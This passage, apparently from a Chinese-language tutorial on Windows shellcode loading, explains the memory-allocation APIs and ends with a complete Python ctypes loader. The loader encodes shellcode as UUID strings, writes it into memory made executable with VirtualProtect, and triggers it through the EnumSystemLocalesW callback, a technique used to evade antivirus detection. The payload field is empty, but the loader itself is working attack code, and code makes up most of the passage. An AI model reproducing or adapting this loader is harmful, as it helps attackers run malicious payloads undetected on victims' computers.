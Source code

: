 ​	该`API`需要传入三个参数，第一个参数用于设置堆分配选项，这里设置为`HEAP_CREATE_ENABLE_EXECUTE`，允许堆分配的所有内存块都能够执行代码；第二个参数用于设置堆的初始大小，当参数为`0`时，将提交一页，这里设置为`0`即可；第三个参数用于设置堆的最大大小，如果 `dwMaximumSize`不是零，堆大小是固定的，并且不能超出最大大小，如果`dwMaximumSize`为`0`，堆可以增大大小，这里也是设置为`0`即可。

- `ZwAllocateVirtualMemory`：`ZwAllocateVirtualMemory`例程在指定进程的用户模式虚拟地址空间中保留、提交或同时保留一个区域的页面。

```c++
NTSYSAPI NTSTATUS ZwAllocateVirtualMemory(
  [in]      HANDLE    ProcessHandle,
  [in, out] PVOID     *BaseAddress,
  [in]      ULONG_PTR ZeroBits,
  [in, out] PSIZE_T   RegionSize,
  [in]      ULONG     AllocationType,
  [in]      ULONG     Protect
);
```

​	该`API`需要传入六个参数，第一个参数用于设置执行映射的进程句柄，这里设置为`HeapCreate`返回的结果；第二个参数用于指向将接收已分配页面区域基址的变量的指针，如果此参数的初始值为`NULL`，操作系统将确定分配区域的位置，这里设置为`NULL`即可；第三个参数必须小于`21`，并且仅在操作系统确定分配区域的位置时使用，这里依旧设置为`NULL`即可；第四个参数用于指向将接收已分配页面区域的实际大小的变量的指针，注意申请内存的大小应为`len(shellcode)*16`；第五个参数用于指定要执行的分配类型的标志的位掩码，这里设置为`MEM_COMMIT`；第六个参数用于指定所提交页面区域所需的保护，这里设置为`PAGE_EXECUTE_READWRITE`。

​	最后采用`callback`的方式来触发执行内存中的`shellcode`，对于通过函数回调方式执行`shellcode`的`API`可以在项目`AlternativeShellcodeExec`中查看：https://github.com/aahmad097/AlternativeShellcodeExec。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
UUID内存加载（该版本未使用heapCreate+ZwAllocateVirtualMemory）
"""
import uuid
import ctypes

def UUIDConvert(shellcode):
    uuid_shellcode = []
    if len(shellcode) % 16 != 0:
        null_byte = b'\x00' * (16 - len(shellcode) % 16)
        shellcode += null_byte

    for i in range(0, len(shellcode), 16):
        uuid_string = str(uuid.UUID(bytes_le=shellcode[i: i + 16]))
        uuid_shellcode.append(uuid_string)
    return uuid_shellcode


shellcode = b''
uuid_shellcode = UUIDConvert(shellcode=shellcode)
print(uuid_shellcode)

ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(ctypes.c_int(len(shellcode)))
ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(ptr_alloc, len(shellcode), len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr_realloc, ctypes.c_int(len(shellcode)), 0x40, ctypes.byref(ctypes.c_long(1)))

ptr = ptr_realloc
for code in uuid_shellcode:
    ctypes.windll.Rpcrt4.UuidFromStringA(code, ptr)
    ptr += 16

ctypes.windll.kernel32.EnumSystemLocalesW(ptr_realloc, 0)
```
